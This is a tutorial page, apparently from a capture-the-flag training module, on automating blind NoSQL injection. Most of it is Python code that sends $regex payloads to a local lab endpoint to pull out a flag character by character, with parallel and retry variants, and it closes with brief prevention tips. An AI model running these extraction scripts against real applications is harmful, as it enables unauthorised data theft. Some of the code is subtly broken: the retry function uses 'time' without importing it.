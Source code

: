 # Automating Blind Data Extraction

Manually extracting data via blind injection gets tedious very quickly. Luckily, it is very easily automated using Python scripts.

## Oracle Function

Create a function that queries the application and returns true/false based on response:

```python
import requests
import json

def oracle(t):
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
    return "bmdyy" in r.text  # Target indicator in response
```

## Verification

Test the oracle function with known values:

```python
# Make sure the oracle is functioning correctly
assert (oracle("X") == False)  # Known non-existent value
assert (oracle({"$regex": "^HTB{.*"}) == True)  # Known pattern
```

## Automated Extraction

### Basic Character-by-Character Extraction

```python
def extract_data():
    extracted = ""
    characters = "0123456789abcdef"  # Known character set
    
    while True:
        found = False
        for c in characters:
            test_regex = f"^{extracted}{c}.*"
            if oracle({"$regex": test_regex}):
                extracted += c
                found = True
                print(f"Found: {extracted}")
                break
        
        if not found:
            break
    
    return extracted
```

### Optimized Extraction (Known Format)

When you know the format (e.g., `HTB{[0-9a-f]{32}}`):

```python
def extract_htb_flag():
    trackingNum = "HTB{"  # Known prefix
    
    for _ in range(32):  # 32 hex characters
        for c in "0123456789abcdef":
            if oracle({"$regex": "^" + trackingNum + c}):
                trackingNum += c
                break
    
    trackingNum += "}"  # Known suffix
    return trackingNum
```

## Complete Script Example

```python
#!/usr/bin/python3

import requests
import json

def oracle(t):
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
    return "bmdyy" in r.text

# Verify oracle works
assert (oracle("X") == False)
assert (oracle({"$regex": "^HTB{.*"}) == True)

# Extract tracking number
trackingNum = "HTB{"
for _ in range(32):
    for c in "0123456789abcdef":
        if oracle({"$regex": "^" + trackingNum + c}):
            trackingNum += c
            break
trackingNum += "}"

# Verify result
assert (oracle(trackingNum) == True)
print("Tracking Number: " + trackingNum)
```

## Performance Optimization

### Character Set Reduction

- **Known format**: Limit to specific characters (0-9a-f for hex)
- **Case sensitivity**: Test both uppercase and lowercase
- **Special characters**: Include based on application context

### Parallel Processing

```python
import concurrent.futures
import threading

def test_character(extracted, char):
    test_regex = f"^{extracted}{char}.*"
    return char if oracle({"$regex": test_regex}) else None

def extract_parallel():
    extracted = ""
    characters = "0123456789abcdef"
    
    while True:
        with concurrent.futures.ThreadPoolExecutor() as executor:
            futures = [executor.submit(test_character, extracted, c) 
                      for c in characters]
            
            for future in concurrent.futures.as_completed(futures):
                result = future.result()
                if result:
                    extracted += result
                    print(f"Found: {extracted}")
                    break
        else:
            break
    
    return extracted
```

## Error Handling

```python
def robust_oracle(t, max_retries=3):
    for attempt in range(max_retries):
        try:
            r = requests.post(
                "http://127.0.0.1/index.php",
                headers = {"Content-Type": "application/json"},
                data = json.dumps({"trackingNum": t}),
                timeout=10
            )
            return "bmdyy" in r.text
        except requests.RequestException as e:
            print(f"Attempt {attempt + 1} failed: {e}")
            if attempt == max_retries - 1:
                raise
            time.sleep(1)
```

## Key Points

- **Oracle function**: Central function to test queries
- **Verification**: Always test with known values first
- **Character sets**: Optimize based on expected format
- **Error handling**: Implement retries and timeouts
- **Progress tracking**: Print progress for long extractions
- **Performance**: Use parallel processing for large character sets

## Prevention

- Implement rate limiting to prevent automated attacks
- Monitor for suspicious query patterns
- Use input validation and parameterized queries
- Log and alert on repeated failed attempts
